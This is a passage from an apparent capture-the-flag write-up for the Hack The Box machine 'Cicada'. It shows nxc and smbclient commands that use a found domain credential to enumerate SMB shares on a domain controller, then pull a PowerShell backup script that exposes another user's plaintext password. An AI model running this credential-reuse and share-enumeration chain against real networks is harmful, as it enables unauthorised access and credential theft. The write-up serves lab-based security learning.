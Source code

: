 ```bash
```
> `cicada.htb\david.orelious:aRt$Lp#7t*VQ!3` - we have **the second** valid account.

> Again we check the list of `all shares` and their rights:

```bash

nxc smb cicada.htb -u 'cicada.htb\david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares

```
> Result:

```

SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ
SMB         10.10.11.35     445    CICADA-DC        HR              READ
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share

```

> Great. We have `READ` permissions for share `DEV`.

> Connecting to `DEV`:

```bash

smbclient //cicada.htb/DEV -U 'cicada.htb\david.orelious'
Password for [CICADA.HTB\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

                4168447 blocks of size 4096. 478267 blocks available
smb: \>

```

> I see the script `ps1`. I take it and look at the contents:

```bash

cat Backup_script.ps1

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

```
